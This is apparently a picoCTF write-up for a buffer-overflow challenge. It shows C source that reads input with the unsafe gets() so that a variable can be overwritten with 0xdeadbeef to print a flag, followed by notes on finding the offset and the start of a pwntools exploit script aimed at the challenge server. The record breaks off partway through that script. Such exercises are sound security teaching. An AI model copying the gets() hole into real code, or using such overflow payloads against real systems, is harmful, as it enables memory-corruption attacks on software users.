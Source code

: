 ```
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
- long code = 0, refers to how it starts as 0 but we need 0xdeadbeef to obtain the flag
- gets() in the code will just keep reading input until newline, even if it overflows the buffer. so if clutter is only a particular number of bytes and sending characters more than that will cause it to overflow
- so if i write a code with ```payload = b'A' * offset``` then i can overflow it by doing trial and error
- but since the actual offset might have some allignment padding so we must do +p64(0xdeadbeef)
FINAL CODE
```
#!/usr/bin/env python3
from pwn import *

offsets = [264, 272, 280, 288]

for offset in offsets:
    try:
        print(f"Trying offset {offset}...")
        p = remote('mars.picoctf.net', 31890)
        p.recvuntil(b'What do you see?')
        
        payload = b'A' * offset
```